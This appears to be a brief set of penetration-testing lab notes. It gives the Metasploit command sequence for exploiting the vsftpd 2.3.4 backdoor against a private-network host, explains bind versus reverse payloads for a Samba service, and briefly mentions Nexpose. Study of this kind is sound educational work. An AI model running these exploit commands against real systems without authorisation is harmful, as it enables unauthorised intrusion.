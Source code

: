 #### FTP vsftpd 2.3.4 backdoor
- `21/tcp ftp`: anonymous FTP login allowed. Search the version `vsftpd 2.3.4` we know that there is a backdoor installed here.
- By searching in the internet, we will use a module from metasploit

```bash
msfconsole
search vsftpd #show what module we will use
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.222.138
show options # show agains
exploit
```

### netbios-ssn Samba smbd 3.X-4.X

This time we need to add a payload also. `show payloads`
- bind: open a port on target pc and we connect to that port
- reverse: open a port on the attacker machine then connect from target pc to attacker pc. This allows to bypass firewall on target pc. We also need to config firewall to allow port on our pc (ex: `sudo ufw allow 4444`).


### Nexpose
- Vulnerabiylity Management Framework